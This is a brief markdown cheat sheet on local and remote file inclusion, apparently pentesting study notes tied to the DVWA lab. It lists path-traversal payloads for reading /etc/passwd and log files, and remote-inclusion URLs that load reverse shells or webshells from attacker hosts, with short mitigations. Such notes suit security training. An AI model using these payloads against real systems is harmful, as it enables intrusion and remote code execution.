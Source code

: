 # File Inclusion

## Local
- Exploit
  - ```?page=../../../../../etc/passwd```
  - ```index.php?page=../../../../../../../../../../etc/passwd%00```

- Intersting files
  - ```/proc/self/environ```
  - ```/var/log/auth.log```
  - ```/var/log/apache2/access.log```
  
- Mitigation
  - Use static file inclusion. hard code the fiels that we want to include in the code.

## Remote
- Exploit
  - ```http://127.0.0.1/vulnerabilities/fi/?page=http://192.168.72.200:9999/php-reverse-shell.php```
  - ```index.php?page=http://attackerIP/webshell.php``` 
  - ```index.php?page=htthttpp://attackerIP/webshell.php```
  - ```?page=hTTp://10.20.14.203/reverse.txt?```

- Mitigation
  -  Disable ```allow_url_fopen = On``` & ```allow_url_include = On```

## Example
  - [DVWA](../BuggyApp/DVWA/file-inclusion.md)  
